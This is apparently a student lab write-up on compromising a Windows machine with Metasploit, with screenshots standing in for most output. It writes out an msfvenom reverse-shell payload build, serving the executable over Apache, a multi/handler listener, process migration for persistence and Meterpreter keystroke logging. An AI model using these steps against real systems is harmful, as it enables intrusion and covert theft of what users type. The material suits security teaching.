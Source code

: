 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
## OUTPUT :
![Screenshot 2025-04-26 135930](https://github.com/user-attachments/assets/95449f05-771c-482a-98df-11a3f1b9cca8)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT :
![Screenshot 2025-04-26 135937](https://github.com/user-attachments/assets/e1e92ed4-6789-4a5c-98e8-3d8be31a3b04)

copy the fun.exe into the apache /var/www/html folder sudo systemctl apache2 start
Check the status of apache2
## OUTPUT :
![Screenshot 2025-04-26 135942](https://github.com/user-attachments/assets/fdc39444-5ef5-4369-b760-fdc1f511137e)

Invoke msfconsole:
## OUTPUT:
![Screenshot 2025-04-26 135948](https://github.com/user-attachments/assets/3dd7cd86-c33f-42fa-9deb-48cffb6f3c69)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
## OUTPUT :
![Screenshot 2025-04-26 135953](https://github.com/user-attachments/assets/63cf8580-3f97-4bd1-ac3c-a037f8d8c928)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
## OUPUT :
![Screenshot 2025-04-26 135958](https://github.com/user-attachments/assets/f776795a-1b66-4f80-9acf-5a5646048746)

WINDOWS :
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads
## BROWSE OUTPUT:
![Screenshot 2025-04-26 140006](https://github.com/user-attachments/assets/34677129-21fb-485a-ac21-42a4298956d9)

## DOWNLOAD OUTPUT:
![Screenshot 2025-04-26 140014](https://github.com/user-attachments/assets/f4a3cb04-6660-4208-95e0-2aaa18023578)

## COME BACK TO PARROT:
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
## OUTPUT :
![Screenshot 2025-04-26 140020](https://github.com/user-attachments/assets/3e1a6d10-1919-4b79-8c49-ef020b6652f8)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
## OUTPUT :
![Screenshot 2025-04-26 140027](https://github.com/user-attachments/assets/5dbde45d-0565-48ae-81a1-2a3ccba8232e)


## WINDOWS OUTPUT :
![Screenshot 2025-05-04 225755](https://github.com/user-attachments/assets/972ac23b-4a05-4a24-9964-5bbe563aa4f7)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
## OUTPUT:
![Screenshot 2025-04-26 140043](https://github.com/user-attachments/assets/a37d4c38-ed52-42d1-b9c7-77f33ac727df)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.



